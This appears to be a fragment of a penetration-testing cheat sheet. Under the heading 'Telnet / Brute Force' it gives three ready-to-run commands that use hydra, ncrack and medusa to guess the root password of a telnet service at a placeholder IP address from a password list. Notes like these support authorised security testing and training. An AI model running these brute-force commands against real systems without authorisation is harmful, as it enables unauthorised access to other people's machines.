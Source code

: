 ## Telnet

### Brute Force

    hydra -l root -P passwords.txt [-t 32] <IP> telnet
    ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
    medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet
    
    
